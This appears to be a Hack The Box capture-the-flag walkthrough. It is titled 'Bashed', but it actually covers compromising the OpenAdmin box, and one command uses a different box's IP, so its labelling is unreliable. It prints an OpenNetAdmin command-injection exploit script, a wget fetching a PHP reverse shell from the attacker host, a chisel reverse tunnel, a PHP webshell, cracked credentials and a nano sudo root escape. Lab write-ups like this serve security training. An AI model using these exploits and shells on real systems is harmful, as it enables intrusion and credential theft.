



Bashed
Linux, Easy, Released 2020-01-05




INTRODUCTION
At first, the target seems like a half-built Apache server. After a little enumeration, it seems like a single server hosting four website templates: one for music, one for interior design, one for artwork, and one that is generally-applicable. It's funny, but some of these seem like really nice templates.
Warning: This walkthrough contains many spoilers, but none should come as a surprise if you read the walkthrough sequentially
BashedINTRODUCTIONRECONWebserver StrategyExploring the websiteFOOTHOLDFirst Reverse ShellUpgrading the Shellwww-dataLinux foothold strategyMySQLwww-data (continued)Mysterious Port 52846Tunnel to internalLogin form at port 52846USER FLAGJimmyROOT FLAGJoannaPrivilege EscalationLESSONS LEARNEDAttackerDefender
RECON
I followed my typical first steps. I set up a directory for the box, with a nmap subdirectory. Then set $RADDR to my target machine's IP, and scanned it with my typical nmap "init" scan:
nmap -sV -sC -O -n -Pn -oA nmap/init-scan $RADDR My "init" nmap scan: explained
This is a quick yet highly useful scan of the lower 1000 ports. I always use this first.
-sV Version detection. Ex. if port 21 is open, attempt to guess what version of FTP is running. -sC Default script scan; shorthand for
--script=default-O Enable OS detection. Nmap makes its best guess to fingerprint the target. -n Disable DNS resolution: we don't need hostnames. Speeds up the scan greatly. -Pn Skip host discovery, which is unnecessary if we're targeting just one host. -oA Output results in all formats, to thenmap/init-scandirectory.
xxxxxxxxxxStarting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 23:55 IDTNmap scan report for 10.10.10.171Host is up (0.17s latency).Not shown: 998 closed tcp ports (reset)PORT STATE SERVICE VERSION22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:| 2048 4b98df85d17ef03dda48cdbc9200b754 (RSA)| 256 dceb3dc944d118b122b4cfdebd6c7a54 (ECDSA)|_ 256 dcadca3c11315b6fe6a489347c9be550 (ED25519)80/tcp open http Apache httpd 2.4.29 ((Ubuntu))|_http-server-header: Apache/2.4.29 (Ubuntu)|_http-title: Apache2 Ubuntu Default Page: It worksNo exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).TCP/IP fingerprint:OS:SCAN(V=7.93%E=4%D=6/6%OT=22%CT=1%CU=42882%PV=Y%DS=2%DC=I%G=Y%TM=647F9D6COS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=106%TI=Z%CI=Z%TS=A)SEQ(SP=10OS:6%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3OS:=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%W2=7OS:120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNWOS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DFOS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIOS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
nmap scan revealed only SSH on port 22 and a webserver on port 80
Webserver Strategy
Add the target to /etc/hosts.
xxxxxxxxxxecho "10.10.10.171 bashed.htb" | sudo tee -a /etc/hosts☝️ I use
teeinstead of the append operator>>so that I don't accidentally blow away my/etc/hostsfile with a typo of>when I meant to write>>.Download the source code & extract all the links.
Omitted here because it was not helpful for this box. At a high level, this is the process I usually follow:
- Use
wgetto download a copy of the target domain - Use
stringsto extract all strings from the source code - Use regex to parse all strings. I look for text following an
hrefattribute and anything withhttporhttps
- Use
Perform vhost enumeration on the target.
xxxxxxxxxxffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.10.68:80/ -H "Host: FUZZ.bashed.htb" -c -t 40 -o ./Bashed/fuzzing/vhost-bashed.htb.md -of md -timeout 4 -ic -ac -mc 200,204,301,307,401,403,405,500,404Perform subdomain enumeration on the target.
xxxxxxxxxxffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u http://FUZZ.bashed.htb -c -t 40 -o ./Bashed/fuzzing/subdomain-bashed.htb.md -of md -timeout 4 -ic -acPerform directory enumeration on the target domain and any domains collected in steps (3) or (4).
xxxxxxxxxxferoxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u http://bashed.htb -A -d 1 -t 100 -T 4 --burp --smart -o ./Bashed/fuzzing/directory-bashed.htb.json
- For vhost and subdomain enumeration, ANY RESULTS may be important.
- For directory enumeration, there are many false-positives. READ THROUGH THE RESULTS MANUALLY and look for important results. I sometimes run this twice, filtering out the byte size for unimportant pages.
Check each page for a
formwith a POST method, using the list of pages from directory enumeration. I use a handy tool called Selenium Oxide. Below is a snippet that shows how I do this:xxxxxxxxxxexploit = ExploitBuilder('http', addr, use_proxy=args.proxy)with open(f'./{dirname}/discovered_uris.txt', 'r') as f:for f_url in f:# Change subdomainsif addr != f'{baseurl(f_url)}:{port}':# then skip this result# [omitted]exploit.driver.maximize_window()exploit.get(f'/{page(f_url)}')# Only examine sites that have a form that does a POSTforms = exploit.driver.find_elements(By.CSS_SELECTOR, 'form[method="POST"]')user = SeO2User()for frm in forms:print(f'\nExamining form: {frm.get_attribute("outerHTML")}\n')inputs = frm.find_elements(By.CSS_SELECTOR, 'input')# [omitted]Note that this check could also be performed using regex, but regex parsing of HTML is really difficult and error-prone in my experience.
Do banner-grabbing on the target.
xxxxxxxxxxwhatweb $RADDR && curl -IL $RADDRCheck Wappalyzer, a tool used for identifying the underlying technologies of a website. I use the official Wappalyzer plugin for firefox.
Notable results from enumeration of this box included the following:
x(no vhosts)(no subdomains)http://openadmin.htb/music/http://openadmin.htb/artwork/http://openadmin.htb/sierra/http://openadmin.htb/marga/http://openadmin.htb/ona/Apache 2.4.29, Ubuntu, PHP
Exploring the website
The server appears to host four websites, each on a different directory of the same domain: /music, /artwork, /sierra, and /marga. The server seems to have some kind of admin panel at /ona.
The update warning on the /ona site indicates it is running a tool called opennetadmin, which has a corresponding git repo here. The update warning also reveals that it is running version 18.1.1.
Can't do much on the /ona page. Directory enumeration revealed several pages including login.php and logout.php.
There is also a little login widget at the top-right of the page. I tried admin:admin and got in right away. After reading through the Installation Instructions shown on the git repo, these are the default credentials and are supposed to be changed after the first run.
Unfortunately, the admin user doesn't seem to actually have privileges to do anything unexpected. admin can't even add new hosts or users, as far as I can see. Thankfully though, clicking the User Info widget at the top-right of the page reveals some important info:
xxxxxxxxxxCurrent DB connection infoDatabase Host localhostDatabase Type mysqliDatabase Name ona_defaultDatabase User ona_sysDatabase Context DEFAULTDatabase Context Desc Default data contextDatabase Context Color #D3DBFF
OK cool, a database user. Also, we now know that it is using MySQL (which I would have assumed anyway, but it's good to know for sure.) That might be helpful later. The username especially.
After reading fully through the installation and configuration instructions on the git repo, it is clear that ona_sys will have UPDATE access to the database, but should already have a password defined.
Not seeing anything else particularly interesting on this page, it might be time to move on.
FOOTHOLD
First Reverse Shell
Perhaps there is an exploit for this version of opennetadmin?
xxxxxxxxxxsearchsploit opennetadmin
Oh nice! It looks like this version might be viulnerable. There is an exploit in msfconsole too, so let's try that next. First, set a new firewall rule allowing a reverse shell from the target machine to the attacker machine:
xxxxxxxxxxsudo ufw allow from 10.10.10.171 to any port 4444 proto tcp
Next, open up msfconsole and search for the exploit:
xxxxxxxxxxmsfconsolesearch opennetadminuse 0show infoset RHOSTS 10.10.10.171set LHOST tun0checkrun
Unfortunately, even though the exploit passed the check, a reverse shell did not connect.
However, there was still one other really juicy-looking exploit that was listed on searchsploit. Let's check that out instead.
On my machine, the exploit is present at /usr/share/exploitdb/exploits/php/webapps/47691.sh. Reading though the script, it looks like the script only expects a single parameter, the target URL:
xxxxxxxxxx
URL="${1}"while true;do echo -n "$ "; read cmd curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1doneOk, let's try it out against the target /ona:

👎 Nope, that didn't work

👍 YUP that worked! Wonderful!
This exploit provides a non-interactive shell at /opt/ona/www/ (which itself is symlinked from the Apache directory /var/www/ona)
But what else is present in this directory?
xxxxxxxxxx$ ls -latotal 88drwxrwxr-x 10 www-data www-data 4096 Jun 6 20:18 .drwxr-x--- 7 www-data www-data 4096 Nov 21 2019 ..-rw-rw-r-- 1 www-data www-data 1970 Jan 3 2018 .htaccess.exampledrwxrwxr-x 2 www-data www-data 4096 Jan 3 2018 config-rw-rw-r-- 1 www-data www-data 1949 Jan 3 2018 config_dnld.php-rw-rw-r-- 1 www-data www-data 4160 Jan 3 2018 dcm.phpdrwxrwxr-x 3 www-data www-data 4096 Jan 3 2018 imagesdrwxrwxr-x 9 www-data www-data 4096 Jan 3 2018 include-rw-rw-r-- 1 www-data www-data 1999 Jan 3 2018 index.phpdrwxrwxr-x 5 www-data www-data 4096 Jan 3 2018 local-rw-rw-r-- 1 www-data www-data 4526 Jan 3 2018 login.php-rw-rw-r-- 1 www-data www-data 1106 Jan 3 2018 logout.phpdrwxrwxr-x 3 www-data www-data 4096 Jan 3 2018 modulesdrwxrwxr-x 3 www-data www-data 4096 Jan 3 2018 pluginsdrwxrwxr-x 2 www-data www-data 4096 Jan 3 2018 wincdrwxrwxr-x 3 www-data www-data 4096 Jan 3 2018 workspace_plugins
Haha alright, so it's the whole /ona site and related PHP. Since there are PHP scripts right in this directory, it stands to reason that other php could be ran from this same directory 🤔 This non-interactive shell is kind of a pain, so perhaps I could add a new reverse shell?
I grabbed a copy of my toolbox, and added an easy PHP reverse shell to it. The reverse shell I got was one that came with kali: /usr/share/webshells/php/php-reverse-shell.php. I'm sure many reverse shells would have worked, but this is one I've tried before so I'll use it first. I hosted my toolbox, including a copy of this reverse shell, from my attacker machine. First, I set a new firewall rule:
xxxxxxxxxxsudo ufw allow from 10.10.10.171 to any port 8000 proto tcpThen I stood up the python webserver:
xxxxxxxxxxpython3 -m http.server 8000And in a separate terminal tab, opened a netcat listener for the reverse shell
xxxxxxxxxxnc -lvnp 4444Then, from the target box's non-interactive shell created by the exploit 47691.sh, I downloaded the reverse shell directly into /opt/ona/www:
xxxxxxxxxxwget 10.10.14.10:8000/php-reverse-shell.php
Using a web browser, I made a request to the reverse shell. Immediately, I got a shell:

Upgrading the Shell
I originally learned this procedure from this blog post. It goes into much more depth, but I find that the following is usually sufficient. In only a few rare cases have I had to do more than this. This also assumes python is available on the target machine. Starting with the "dumb" shell, change from sh to bash:
xxxxxxxxxxSHELL=/bin/bash script -q /dev/nullYou'll have a better prompt now, but still no tab completion and still no ability to use things like
lessorvi. Let's fix that:
xxxxxxxxxx[ctrl+z]stty raw -echofg [enter] [enter]export TERM=xterm256-colorThe shell will be backgrounded, then enable echo mode with stty, then brought back to the foreground. This should make the shell much more comfortable to use. Enjoy your tab-completion and colours 🌈.
www-data
So what can www-data do? Whenever I gain foothold on a new box, I like to take the following steps:
Linux foothold strategy
Run
id. Find out what groups this user is in. Locate the user within/etc/passwdif possible; see if they have a shell and/orhomedirectory.xxxxxxxxxxid && cat /etc/passwd | grep $USERCheck if the user can sudo
xxxxxxxxxxsudo -lCheck locations that are writable by the user or its group
xxxxxxxxxxfind / -user [username] 2>/dev/nullfind / -group [groupname] 2>/dev/nullDoes the user already have any useful tools?
xxxxxxxxxxwhich nc netcat socat python perl phpCheck for any active and listening sockets
xxxxxxxxxxnetstat -tulpn | grep LISTEN☝️ also try
netstat -antpDoes the user have anything in cron?
xxxxxxxxxxcrontab -lDoes the system or root have anything in cron?
xxxxxxxxxxcat /etc/crontabls -laR /etc/cron*Find any SUID or SGID executables that are accessible by the user
xxxxxxxxxxfind / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2>/dev/null | grep -v '/proc'Download the toolbox (not covered in-depth here).
My toolbox includes linpeas, linenum, pspy, and chisel.
Since HTB boxes are not connected to the internet, I usually get my tools onto the target box by standing up a python webserver and using any available tool (nc, wget, or curl) to download the tools from my attacker machine onto the target box. I also use this webserver for moving exploit code from my attacker box onto the target.
I've prepared a small toolbox for myself, including a short index.html page, that is generally applicable for any CTF box. I suggest any reader of this walkthough does the same.
Run pspy and take a look at any running processes. Since pspy is closed with
ctrl+c, and your reverse shell may not be fully interactive, it is best to run this on a timeout:xxxxxxxxxxtimeout 5m ./pspyRun pre-scripted enumeration tools, such as LinEnum or linpeas
xxxxxxxxxx./LinEnum.sh./linpeas.sh -w
I only did steps (1) through (5) and saved the rest for later. Notable results from the foothold strategy included the following:
- (1) revealed that there are three important users on the box:
www-data,joanna, andjimmy. - (3) revealed that
www-datacan write to any of the typical apache directories - (4) revealed that
nc,netcat,wget,curl,perl, andphpare all present. - (5) revealed that SSH, DNS, MySQL, and something on port 52846 were all running.
MySQL
Now that I'm on the box, it makes sense to look into usage of MySQL. After all, we already know at least one valid user: ona_sys (shown from the User Info widget on the /ona admin page). There is probably also the root user. Unfortunately, we don't know the password for either user.
Tried several guesses at credentials:
- root : root
- root : toor
- admin : admin
- ona_sys : ona_sys
- And several others...
No dice 🎲 None of those were correct. Let's take a look around for suspicious config files. After all, if the /ona admin page was left with default credentials admin : admin, there is a good chance that the database credentials were left in some config file.
xxxxxxxxxxwww-data@openadmin:/opt/ona/$ ls /opt/ona/sqlwww-data@openadmin:/opt/ona/sql$ cat list_all_hosts.sqlwww-data@openadmin:/opt/ona/www/config$ cat config.inc.phpwww-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
Beautiful! database_settings.inc.php has some useful info inside:
xxxxxxxxxx<?php$ona_contexts=array ('DEFAULT' =>array ('databases' =>array (0 =>array ('db_type' => 'mysqli','db_host' => 'localhost','db_login' => 'ona_sys','db_passwd' => 'n1nj4W4rri0R!','db_database' => 'ona_default','db_debug' => false,),),'description' => 'Default data context','context_color' => '#D3DBFF',),);
So the MySQL credential is ona_sys : n1nj4W4rri0R!
Let's try logging into MySQL with that credential:

Success! We're in the database 😁
Then, issue the following commands into MySQL to poke around the database a bit:
xxxxxxxxxxuse ona_default;show tables;select * from users;
The users table shows some passwords:

However, since we know the admin credential is simply admin : admin, we know that these passwords must be hashed... Thankfully there is no salt, but what hashing algorithm was used?
Worst case scenario, I try all the common algorithms and see which one hashes "admin" into "21232f297a57a5a743894a0e4a801fc3"
Instead of writing my own script to do this, I figured there was probably an online tool to do it. I searched for "reverse hashing online" and chose the top result: https://md5hashing.net. I entered in the hash to search, chose "Search all types", and hit Decode:

About ten seconds later, it spat out a table showing that this hash corresponds to "admin" (the expected value) when hashed using MD5. Perfect! My guess was correct 🤓
Let's run the hash for the guest user through the same decoder, this time specifying MD5:

Apparently, this is the MD5 hash of the text "test". Good to know.
Let's see if we can do anything odd using MySQL. Sometimes it's possible to leak file contents just through the database. It all depends on privileges:
xxxxxxxxxxmysql> select * from GLOBAL_VARIABLES;ERROR 3167 (HY000): The 'INFORMATION_SCHEMA.GLOBAL_VARIABLES' feature is disabled; see the documentation for 'show_compatibility_56'mysql> select * from USER_PRIVILEGES;+-----------------------+---------------+----------------+--------------+| GRANTEE | TABLE_CATALOG | PRIVILEGE_TYPE | IS_GRANTABLE |+-----------------------+---------------+----------------+--------------+| 'ona_sys'@'localhost' | def | USAGE | NO |+-----------------------+---------------+----------------+--------------+1 row in set (0.00 sec)mysql> select LOAD_FILE("/root/root.txt");+-----------------------------+| LOAD_FILE("/root/root.txt") |+-----------------------------+| NULL |+-----------------------------+1 row in set (0.00 sec)mysql> select LOAD_FILE("/home/joanna/user.txt");+------------------------------------+| LOAD_FILE("/home/joanna/user.txt") |+------------------------------------+| NULL |+------------------------------------+1 row in set (0.00 sec)mysql> select LOAD_FILE("/home/jimmy/user.txt");+-----------------------------------+| LOAD_FILE("/home/jimmy/user.txt") |+-----------------------------------+| NULL |+-----------------------------------+1 row in set (0.00 sec)
😑 Unfortunately, it looks like the database is protected against file shenanigans.
After checking several other tables in the database ona_default, it seems like the only benefit may have been obtaining those password hashes. Other tables were default or empty. I'll keep the database access in-mind, but for now I'll move on.
The
permission,permission_assignments, anduserstables collectively describe what permissions each user has. For what it's worth, it seems that the admin user has all permissions, and the guest user has none.
www-data (continued)
Now that I've investigated MySQL, I'll go back and enumerate the www-data user properly. Prior to this, I had only done steps (1) to (5) of my Linux Foothold Strategy.
Checking the listening
xxxxxxxxxxnetstat -tulpn | grep LISTENListening processes check: explained
This checks for any processes with a socket open in a listening state
-t Show processes using TCP -u Show processes using UDP -l Show sockets in the listening state only -p Show the PID of the each process -n Use numeric addresses instead of attempting name resolution
This check revealed a possibly interesting result:

| Address | Service |
|---|---|
| 127.0.0.1:3306 | MySQL |
| 127.0.0.1:52846 | UNKNOWN |
| 127.0.0.53:53 | DNS tcp |
| 0.0.0.0:22 | SSH |
| :::80 | HTTP server |
| :::22 | SSH |
| 127.0.0.53:53 | DNS udp |
Mysterious Port 52846
Doing a quick Google search on tcp port 52846 revealed nothing. I'll try connecting to it manually to see if it lets us know its identity:

Huh ok. So it's using HTTP, and it responded from internal.openadmin.htb
I'll try using curl on that same port:
xxxxxxxxxxcurl localhost:52846
The response was a login page (document head omitted for brevity):
xxxxxxxxxx<body> <h2>Enter Username and Password</h2> <div class = "container form-signin"> <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2> </div> <!-- /container --> <div class = "container"> <form class = "form-signin" role = "form" action = "/index.php" method = "post"> <h4 class = "form-signin-heading"></h4> <input type = "text" class = "form-control" name = "username" required autofocus></br> <input type = "password" class = "form-control" name = "password" required> <button class = "btn btn-lg btn-primary btn-block" type = "submit" name = "login">Login</button> </form> </div> </body>
Tunnel to internal
I want to take a more thorough look at this login form, but this port is not exposed to the internet. No problem: I already have the perfect tool downloaded onto the target box: chisel. Chisel is used for forming tunnels.
This can get a little confusing, so I'll lay out what ports I will be using:
52846: port on the target box that I want to create a tunnel to 52847: port on the attacker box that chisel will use to build the tunnel 52848: port on the attacker box to connect to, if I want to reach 52846 on the target box.
On the attacker box, start up chisel server for a reverse tunnel:
xxxxxxxxxx./chisel server -p 52847 -reverse -vOn the target box, start up chisel in client mode, mapping 52846 to 52848 and connecting back to the attacker box on port 52847.
xxxxxxxxxx./chisel client 10.10.14.10:52847 R:52848:127.0.0.1:52846Back on the attacker box, try connecting to target's port 52846 by connecting to local port 52848:
xxxxxxxxxxcurl localhost:52848Uhh... it's not working?

This is what I'm seeing from the process running chisel server:

Ah, I see the problem 😥 Got too excited about building the tunnel, and forgot to open my firewall
xxxxxxxxxxsudo ufw allow from 10.10.10.171 to any port 52847 proto tcpTry the tunnel again?
xxxxxxxxxxcurl localhost:52848💪 Success!

Login form at port 52846
That's great, but I could have used curl locally on the target box via my reverse shell.
The point was that I wanted to see this rendered in a browser (and also be able to use it with Burp, etc.):

I checked for credential re-use, trying the following credentials:
admin : admin
guest : test
ona_sys : n1nj4W4rri0R!
Other common credentials like:
- root : root
- root : toor
- guest : guest
And some easy sql authentication bypasses:
- admin' or '1'='1 : pass
- admin')-- - : pass
None of the above worked. Maybe worth taking a look at what code runs this page.

Interesting: I can't look at it as www-data. That directory is owned by jimmy... Since it's owned by jimmy, perhaps that is the username for the login? I'll try brute-forcing the login as jimmy, using hydra:
This is a bit desperate. Usually HTB does not require brute-forcing like this.
xxxxxxxxxxPASSWORDS=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txthydra -l jimmy -P $PASSWORDS -s 52848 localhost http-post-form "/index.php:username=^USER^&password=^PASS^&login=:F=Enter Username and Password"
Still nothing. OK... Time to regroup and review what I've done so far 😓
💡 I realize now that, even though I found a credential, I forgot to try it everywhere.
I've tried combinations of users
admin/joanna/jimmywith passwordsadmin/test/n1nj4W4rri0R!on every login page that I've encountered, and it ended up getting me into the MySQL database. But I'm realizing that I forgot to try one service, maybe the most important one: SSH.
Trying those same three passwords (admin, test, n1nj4W4rri0R!) with the two confirmed users on the box (joanna, jimmy):

😁 NICE! Thank you, ninjawarrior ⚔️
Now that I'm logged in as jimmy, I can read the directory /var/www/internal that I was locked out of as www-data. Let's see how that login form works:

My suspicion was correct: that form only accepts jimmy as a user. And the form requires all three fields: username, password, and login. Also, the source code of index.php reveals the hash of the password and the hashing algorithm for it:
| sha512 | 00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1 |
|---|
Having had so much success with it before, I went straight to https://md5hashing.net to attempt to recover the password:

After a minute of calculation, I had a new credential: jimmy: Revealed

I immediately attempted to use this credential on the login form... and it worked! The result is a redirection to /main.php containing an RSA private key, and a reminder about a password:

I copied the text and pasted it into a new file id_rsa. Then changed permissions on it so it could be used for SSH:
xxxxxxxxxxchmod 700 id_rsaThen I tried using this key for SSH login, as both jimmy and joanna. Taking the hint from main.php, "Don't forget your ninja password", I tried using this RSA key with passphrase "n1nj4W4rri0R!", "ninja", and a blank passphrase:

Unfortunately, none of these attempts were successful. If this key is for joanna, then the key must have been generated with a passphrase, and that passphrase is not "n1nj4W4rri0R!" 🤔
USER FLAG
Jimmy
I got so excited about getting access to jimmy, and being able to read the source code for that mysterious login form, that I forgot to explore what jimmy has access to. Unfortunately, /home/jimmy is nearly empty (no flag), and jimmy does not have access to /home/joanna (where the flag must reside, by process of elimination.)
Realizing this, I performed my Linux foothold strategy once again, this time for jimmy. However, I didn't really find anything that I hadn't already obtained.
Getting back to what I was so excited about, I'll proceed with inspecting the source code for main.php. It's now clear who the RSA key is for:

But why does that php script work? Why can shell_exec() read a file owned by joanna? It must be that the process is spawned by joanna.
To test this, I copied main.php to an adjacent file, shell.php. I then removed pretty much everything but the shell_exec() and turned it into a little webshell:
xxxxxxxxxx$cmd = $_GET['cmd'] ?? 'id';$res = shell_exec($cmd);echo "<p> >> $cmd</p><hr><pre>$res</pre>";It will run id if given no parameters. Indeed, the script is being ran by joanna:

🎉 And thankfully, the browser performs url-encoding by itself, so no need to fuss about spaces:

Webshells are handy in a pinch, but can be a bit restrictive. Since this is all being executed as joanna, I'll start a new reverse shell so we can investigate joanna more thoroughly. First, as jimmy, download a copy of the good 'ol php-reverse-shell.php (that is still being served by my python webserver):
☝️ Remember to modify
php-reverse-shell.phpto use the new port, 5555.

As jimmy, set proper file ownership and permissions:
xxxxxxxxxxchown jimmy:internal php-reverse-shell.phpchmod 755 php-reverse-shell.phpThen, on the attacker box, set a new firewall rule and start a netcat listener:
xxxxxxxxxxsudo ufw allow from 10.10.10.171 to any port 5555 proto tcpbashnc -lvnp 5555and in a separate tab on the attacker box, trip the reverse shell with a GET request to it (this request goes through the tunnel created with chisel):
xxxxxxxxxxcurl http://localhost:52848/php-reverse-shell.phpAnd there's the new shell!

Upgrade the reverse shell with the following:
xxxxxxxxxxSHELL=/bin/bash script -q /dev/nullexport TERM=xterm256-color[ctrl+z]stty raw -echofg [enter] [enter]
ROOT FLAG
Joanna
Now that we have a nice shell as Joanna, it makes sense to enumerate the user by following my typical Linux foothold strategy. Since the procedure is the same as always, I'll spare the details and skip right to the key results/findings:
- (1) showed that
joannais also a member of theinternalgroup. - (3) revealed
joannaonly has write access to/home/joannaand/var/www/internal.
joanna has some sudo privileges (found by running linpeas as jimmy):

But from what I've observed, joanna definitely cannot sudo anything. If joanna is in the sudoers file, why is sudo not allowed?
To be honest, I couldn't find anything written online that adequately explained what was going on. I only found the cause of this problem by reading through a bunch of notes of other people working on this box that encountered the same problem.
Short story: this discrepancy is because I'm using a reverse shell for
joannainstead of SSH.
Being provided with the hint that SSH is essential to overcome this issue in using sudo, I'm going to take another look at the attempt to SSH into the box as joanna.
I wanted to see how the RSA private key I obtained compared to a test one I generated. Working from the hypothesis that I didn't know the passphrase for the RSA key, I generated two test rsa keys, one with a passphrase and one without:
xxxxxxxxxxssh-keygen -t rsa -b 2048[save file as ./id_rsa_test_nopass][answer the prompts with no passphrase]ssh-keygen -t rsa -b 2048[save file as ./id_rsa_test_pass][answer the prompts with a passphrase]
The difference between the two is immediately apparent:

The preamble at the beginning of id_rsa_test_pass is due to the addition of a passphrase!
This confirms the suspicion that the RSA key was not working earlier because the key contained a passphrase.
So how to find the passphrase? Well, this format of encryption is notoriously easy to crack, so let's give it a go. First, convert the ssh key to a hash that is crackable with john:
xxxxxxxxxxssh2john id_rsa > id_rsa.johnThen use john to crack the hash. Most hash-cracking on HTB seems intentionally a part of rockyou, so that's what I'll start with :

⚡️ And just 6 seconds later, there's the passphrase!
Let's try the SSH key now, with the passphrase bloodninjas:

Wonderful! Not only that, but also the sudo -l that causing an error earlier has now been resolved:

Privilege Escalation
The output of sudo -l indicates (as was exposed by linpeas earlier) that joanna can run sudo /bin/nano /opt/priv without entering a password. This will run nano with elevated permissions.
Just like other text editors, like vim, nano has a feature that allows a user to run shell commands without leaving the editor. See this GTFObins page for a description of several ways to do this. This makes nano a perfect privilege escalation vector.
I'm following this method:
xxxxxxxxxxsudo /bin/nano /opt/priv[ctrl+R] [ctrl+X]reset; sh 1>&0 2>&0
A prompt appears providing a root shell:

While it would be easy to grab the flag from this shell itself, let's go the extra mile and obtain a reverse shell. First, on the attacker box, set a new firewall rule, change to bash, and establish a netcat listener:

Then, on the target box, inside the root shell within nano, form the reverse shell. It's clear this box already has php, so let's use that reverse shell:

🎉 On the attacker box, the reverse shell is caught!

Upgrade the shell using the same procedure as before:
xxxxxxxxxxSHELL=/bin/bash script -q /dev/nullexport TERM=xterm256-color[ctrl+z]stty raw -echofg [enter] [enter]
Then last but not least, cat out the root flag:
xxxxxxxxxxcat /root/root.txt
That was a lot of fun! It was a long box, involving many tricks. Thankfully, most of the tricks didn't take too long to find (just that one about using SSH instead of a reverse shell for joanna was not obvious).
I think it went well, and I can honestly say I've never been seven shells deep before (I'm counting the chisel tunnel as one):

LESSONS LEARNED
Attacker
- Take note of everything that requires a login: services on the box, pages of a website, databases... everything: write them down. Every time you find a new credential (or just a password), review this list and try logging in to each service again using that credential. I don't want to admit how many times I've found a password and neglected to go try that password in SSH.
- If you come across an RSA private key, and it is marked ENCRYPTED, you won't be able to use it right away. Crack it first using
ssh2john + john. - An SSH connection is always preferable to a reverse shell, even an upgraded one. If it seems like SSH is a possibility, go for it.
- If you check for listening processes using
netstat -tulpnand find a listening process that is not exposed to the internet (and thus not found by your initial nmap scanning), don't hesitate to use chisel: it's much easier than it looks, once you wrap your head around it.
Defender
- Always keep external-facing services fully updated. None of this would have been possible if it weren't for the initial RCE exploit against the outdated version of OpenNetAdmin.
- Lock down directory permissions and restrict users from accessing anything other than what is necessary. For example, there is no obvious reason for
joannato be able tosudo nano /opt/privwithout a password. - Hiding something as an "internal" service becomes completely meaningless as soon as an external attacker gains a foothold on the system. I get that
internal.openadmin.htbwas a bit contrived, but it is important to remember that nothing is "internal" once an attacker can build a tunnel.
Thanks for reading
🤝 🤝 🤝 🤝 @4wayhandshake